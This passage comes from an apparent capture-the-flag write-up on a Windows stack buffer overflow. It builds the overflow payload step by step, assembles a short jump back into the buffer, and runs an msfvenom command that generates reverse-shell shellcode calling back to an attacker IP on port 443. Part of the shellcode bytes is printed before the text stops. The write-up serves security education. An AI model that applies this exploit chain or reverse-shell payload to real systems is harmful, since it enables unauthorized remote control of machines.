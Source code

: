     
    payload = b"A"*66 + p32(0x7190239f) + b"\xCC"*100
    

This time at the crash, EIP is still one byte into the INTs, but there’s only
10 bytes of CC:

![image-20220203215507285](https://0xdfimages.gitlab.io/img/image-20220203215507285.png)

#### Getting a Bit More Space

Looking up the stack a bit, there’s 66 bytes of space I can use that I’ve
currently filled with “A”. All I need is less than 10 bytes of shellcode that
jumps back. I’ll write a short ASM program with just that instruction:

    
    
    bits 32
    jmp $-70
    

Now I’ll compile that and look at the bytes:

    
    
    oxdf@hacky$ nasm -o sc sc.asm; xxd sc
    00000000: ebb8 
    

Alternatively, there’s a MSF tool called `metasm_shell.rb` that will allow me
to type in asm, and get the bytes back:

    
    
    metasm > jmp $-70
    "\xeb\xb8"
    

I’ll update the payload, replacing the INTs with these two bytes to jump back
to the start of the buffer. I’ll also replace “A” with INTs so that it breaks
when it gets there:

    
    
    payload = b"\xCC"*66 + p32(0x7190239f) + b"\xeb\xb8"
    

On running this, it breaks at the top of that buffer:

![image-20220203220612192](https://0xdfimages.gitlab.io/img/image-20220203220612192.png)

#### Still Need More Space

The goal here is to jump to some Windows shellcode that will create TCP
connection back to me, and provide a shell. Unfortunately, while 66 bytes is a
lot more than 10, it’s still not near enough to do that. For example,
`msfvenom` will create this shellcode at 351 bytes:

    
    
    oxdf@hacky$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.6 LPORT=443 -b "\x00" -f python
    [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    [-] No arch selected, selecting arch: x86 from the payload
    Found 11 compatible encoders
    Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
    x86/shikata_ga_nai succeeded with size 351 (iteration=0)
    x86/shikata_ga_nai chosen with final size 351
    Payload size: 351 bytes
    Final size of python file: 1712 bytes
    buf =  b""
    buf += b"\xda\xce\xd9\x74\x24\xf4\x5b\xbf\xbe\xd9\x55\xca\x29"
    buf += b"\xc9\xb1\x52\x31\x7b\x17\x03\x7b\x17\x83\x7d\xdd\xb7"
    buf += b"\x3f\x7d\x36\xb5\xc0\x7d\xc7\xda\x49\x98\xf6\xda\x2e"
    buf += b"\xe9\xa9\xea\x25\xbf\x45\x80\x68\x2b\xdd\xe4\xa4\x5c"
    buf += b"\x56\x42\x93\x53\x67\xff\xe7\xf2\xeb\x02\x34\xd4\xd2"
    buf += b"\xcc\x49\x15\x12\x30\xa3\x47\xcb\x3e\x16\x77\x78\x0a"